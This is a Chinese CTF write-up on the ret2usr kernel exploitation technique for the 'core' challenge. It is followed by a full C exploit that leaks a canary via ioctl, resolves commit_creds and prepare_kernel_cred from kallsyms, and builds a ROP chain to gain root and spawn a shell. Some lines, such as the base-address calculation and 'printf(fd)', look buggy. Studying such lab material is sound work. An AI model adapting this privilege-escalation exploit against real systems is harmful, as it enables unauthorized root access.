 # Items
由于题目分析与ROP中的为同一题，所以思路我这儿不细讲了，这里给出思路地址
> [core利用ROP](../../ROP_kernel/2018_core/writeup.md)
   
ret2usr 攻击利用了 用户空间的进程不能访问内核空间，但内核空间能访问用户空间 这个特性来定向内核代码或数据流指向用户控件，以 ring 0 特权执行用户空间代码完成提权等操作。
## 0x00 ret2user(no SMEP/SMAP)
ret2usr 攻击利用了 用户空间的进程不能访问内核空间，但内核空间能访问用户空间 这个特性来定向内核代码或数据流指向用户控件，以 ring 0 特权执行用户空间代码完成提权等操作。
我这里的自我理解那就是，在用户态定义了函数调用，然后我们在内核态的时候通过ROP等手法时期直接执行在用户态的代码，这样就实现了在内核态ring0的特权来执行用户代码，实际上还蛮简单的，虽然说这个利用手法在KPTI出现之后很少利用了，但是我毕竟还是刚学，所以还是得了解点的。

---
综上，所以咱们只需要在exp中添加这样一段代码即可：
```
void getRootPrivilige(void){
  void *(*prepare_kernel_cred_ptr)(void *) = prepare_kernel_cred;
  int (*commit_creds_ptr)(void *) = commit_creds;
  (*commit_creds_ptr)((*prepare_kernel_cred_ptr)(NULL));
}
```
这里也就是在咱们获得这俩兄弟的地址后在用户程序定义的函数调用，所以咱们只需在ROP中添加这个函数地址使其调用然后通过SWAPGS等系统调用返回用户态即可，以下是成功图！
(是不是很像上此文章的图，兄弟们你们听我狡辩啊不是听我解释，这我真的重新运行的，大伙别说我偷懒)
![](http://imgsrc.baidu.com/super/pic/item/aa64034f78f0f73662139cc34f55b319eac41307.jpg)
1. 通过读取 /tmp/kallsyms 获取 commit_creds 和 prepare_kernel_cred 的方法相同，同时根据这些偏移能确定 gadget 的地址。
2. leak canary 的方法也相同，通过控制全局变量 off 读出 canary。
3. 与 kernel rop 做法不同的是 rop 链的构造:
   > 1. kernel rop 通过 内核空间的 rop 链达到执行 commit_creds(prepare_kernel_cred(0)) 以提权目的，之后通过 swapgs; iretq 等返回到用户态，执行用户空间的 system("/bin/sh") 获取 shell
    > 2. ret2usr 做法中，直接返回到用户空间构造的commit_creds(prepare_kernel_cred(0)) （通过函数指针实现）来提权，虽然这两个函数位于内核空间，但此时我们是 ring 0 特权，因此可以正常运行。之后也是通过 swapgs; iretq 返回到用户态来执行用户空间的 system("/bin/sh")
    

从这两种做法的比较可以体会出之所以要 ret2usr，是因为一般情况下在用户空间构造特定目的的代码要比在内核空间简单得多。（但是据我现在了解最不怕的就是他了(狗头)）
以下是exp：
```
// gcc exp.c -o exp -static -masm=intel -g
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <ctype.h>
#include <sys/types.h>
#include <sys/ioctl.h>

size_t commit_creds = NULL, prepare_kernel_cred = NULL;        // address of to key function
#define SWAPGS_POPFQ_RET 0xffffffff81a012da
#define MOV_RDI_RAX_CALL_RDX 0xffffffff8101aa6a
#define POP_RDX_RET 0xffffffff810a0f49
#define POP_RDI_RET 0xffffffff81000b2f  
#define POP_RCX_RET 0xffffffff81021e53
#define IRETQ 0xffffffff81050ac2 
size_t user_cs, user_ss,user_rflags,user_sp;

//int fd = 0;        // file pointer of process 'core'

/*void saveStatus();
void get_function_address();
#void core_read(int fd, char* buf);
void change_off(int fd, long long off);
void core_copy_func(int fd, long long nbytes);
void print_binary(char* buf, int length);
void shell();
*/
void saveStatus(){
  __asm__("mov user_cs, cs;"
          "mov user_ss, ss;"
          "mov user_sp, rsp;"
          "pushf;"
          "pop user_rflags;"
          );
  puts("\033[34m\033[1m Status has been saved . \033[0m");
}


void getRootPrivilige(void){
  void *(*prepare_kernel_cred_ptr)(void *) = prepare_kernel_cred;
  int (*commit_creds_ptr)(void *) = commit_creds;
  (*commit_creds_ptr)((*prepare_kernel_cred_ptr)(NULL));
}
void core_read(int fd, char *addr){
  printf("try read\n");
  ioctl(fd,0x6677889B,addr);
  printf("read done!");
}

void change_off(int fd, long long off){
  printf("try set off \n");
  ioctl(fd,0x6677889C,off);
}

void core_copy_func(int fd, long long nbytes){
  puts("try cp\n");
  ioctl(fd,0x6677889A,nbytes);
}

void get_function_address(){
        FILE* sym_table = fopen("/tmp/kallsyms", "r");        // including all address of kernel functions,just like the user model running address.
        if(sym_table == NULL){
                printf("\033[31m\033[1m[x] Error: Cannot open file \"/tmp/kallsyms\"\n\033[0m");
                exit(1);
        }
        size_t addr = 0;
        char type[0x10];
        char func_name[0x50];
        // when the reading raises error, the function fscanf will return a zero, so that we know the file comes to its end.
        while(fscanf(sym_table, "%llx%s%s", &addr, type, func_name)){
                if(commit_creds && prepare_kernel_cred)                // two addresses of key functions are all found, return directly.
                        return;
                if(!strcmp(func_name, "commit_creds")){                // function "commit_creds" found
                        commit_creds = addr;
                        printf("\033[32m\033[1m[+] Note: Address of function \"commit_creds\" found: \033[0m%#llx\n", commit_creds);
                }else if(!strcmp(func_name, "prepare_kernel_cred")){
                        prepare_kernel_cred = addr;
                        printf("\033[32m\033[1m[+] Note: Address of function \"prepare_kernel_cred\" found: \033[0m%#llx\n", prepare_kernel_cred);
                }
        }
}


void shell(){
        if(getuid()){
                printf("\033[31m\033[1m[x] Error: Failed to get root, exiting......\n\033[0m");
                exit(1);
        }
        printf("\033[32m\033[1m[+] Getting the root......\033[0m\n");
        system("/bin/sh");
        exit(0);
}

int main(){
  saveStatus();
  int fd = open("/proc/core",2);              //get the process fd
  if(!fd){
                printf("\033[31m\033[1m[x] Error: Cannot open process \"core\"\n\033[0m");
                exit(1);
        }
  char buffer[0x100] = {0};
        get_function_address();                // get addresses of two key function
  ssize_t vmlinux = commit_creds - commit_creds;            //base address
  printf("vmlinux_base = %x",vmlinux);
  //get canary 
  size_t canary;
  change_off(fd,0x40);
  getchar();
  printf(fd);
  core_read(fd,buffer);
  canary = ((size_t *)buffer)[0];
  printf("canary ==> %p\n",canary);
  //build the ROP
  size_t rop_chain[0x1000] ,i= 0;
  printf("construct the chain\n");
  for(i=0; i< 10 ;i++){
    rop_chain[i] = canary;
  }
  rop_chain[i++] = (size_t)getRootPrivilige; 
  rop_chain[i++] = SWAPGS_POPFQ_RET + vmlinux;
  rop_chain[i++] = 0;
  rop_chain[i++] = IRETQ + vmlinux;
  rop_chain[i++] = (size_t)shell;
  rop_chain[i++] = user_cs;
  rop_chain[i++] = user_rflags;
  rop_chain[i++] = user_sp;
  rop_chain[i++] = user_ss;
  write(fd,rop_chain,0x800);
  core_copy_func(fd,0xffffffffffff0100); 
}
```
